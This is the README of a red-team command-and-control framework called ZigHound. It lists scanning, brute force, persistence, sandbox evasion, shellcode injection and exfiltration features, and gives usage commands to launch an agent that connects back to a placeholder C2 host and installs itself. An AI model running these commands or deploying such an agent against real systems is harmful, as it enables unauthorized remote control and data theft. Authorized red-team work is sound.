

<p align="center">
  
</p>

<h1 align="center">ZigHound - Advanced Red Team Framework</h1>

<p align="center">
  
  
  
</p>

---

## ⚠️ LEGAL WARNING ⚠️

**This software is PROPRIETARY and PRIVATE.**

- **Authorized Use Only:** You may NOT use, copy, modify, or distribute this software without explicit written permission from the author.
- **Educational Use:** This source code is available for inspection purposes only.
- **Liability:** The author is not responsible for any misuse of this tool. It is designed for authorized Red Teaming operations only.

---

## Capabilities

### 🕵️ Reconnaissance
- **Advanced Scanner**: TCP connect scan with **Banner Grabbing** for service identification.
- **Stealth Mode**: Jitter and randomized port ordering.
- **Active Exploits**: 
  - HTTP Brute Force (Basic Auth).
  - Sensitive File Enumeration (`.env`, `.git`, etc).

### 🎮 C2 & Agent
- **Encrypted Transport**: XChaCha20-Poly1305 encryption for all communications.
- **Interactive Shell**: Real-time C2 operator console.
- **Persistence**: 
  - Linux: Systemd User Service.
  - Windows: Registry Run Key.
- **Evasion**:
  - Anti-Sandbox (CPU/Time checks).
  - String Obfuscation.

### 🏴‍☠️ Post-Exploitation
- **Privilege Escalation Audit**: Scans for SUID binaries (Linux) and Unquoted Service Paths (Windows).
- **Process Injection**: Remote shellcode injection and execution.
- **Data Exfiltration**: Secure file download (`download <id> <remote_path>`).
- **Tunneling**: Agent-side ProxyManager (Foundation for SOCKS5).

---

## Usage

### 1. Start C2 Listener
```bash
./zig-out/bin/zighound c2 listen --port 4444 --psk "my-secret-key"
```

### 2. Launch Agent (Target)
```bash
./zig-out/bin/zighound agent --host <C2_IP> --port 4444 --psk "my-secret-key" --install
```

### 3. Operate (C2 Shell)
```bash
zighound> help
Commands: help, beacons, tasks, exit
          exec <id> <cmd>
          download <id> <remote_path>
          audit <id>
          inject <id> <local_shellcode_file>
```

---

## Install

```bash
zig build
```

---

## License

**Copyright (c) 2025 ind4skylivey. All Rights Reserved.**
See `LICENSE` for strict usage terms.
